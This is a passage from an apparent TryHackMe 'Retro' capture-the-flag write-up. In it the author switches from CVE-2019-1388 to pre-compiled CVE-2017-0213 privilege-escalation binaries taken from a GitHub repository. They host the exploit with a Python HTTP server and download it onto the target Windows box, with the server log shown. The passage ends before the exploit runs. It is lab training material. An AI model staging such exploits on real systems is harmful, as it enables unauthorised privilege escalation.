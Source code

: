 <br>

Another rabbit hole perhaps?

I open up the Chrome browser and notice that the same CVE-2019-1388 is in the bookmark bar:

<br>

![](images/retro14.png)

<br>

Maybe it's not a rabbit hole and I'm just doing something wrong?

I do some google searching to read up on this exploit and happen upon a TryHackMe forum post where other users are having the same issue with this exploit and it's recommended that as a work around to look into **CVE-2017-0213**.

I find a GitHub repository that has pre-compiled binaries in it [**here**](https://github.com/eonrickity/CVE-2017-0213) and download the x64 version.

I then start up a http server on my system with `python3 -m http.server 80` and on the target system open Chrome and download the file:

```
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.2.100 - - [27/Jan/2022 15:13:23] "GET /CVE-2017-0213_x64.exe HTTP/1.1" 200 -
```

<br>

![](images/retro15.png)
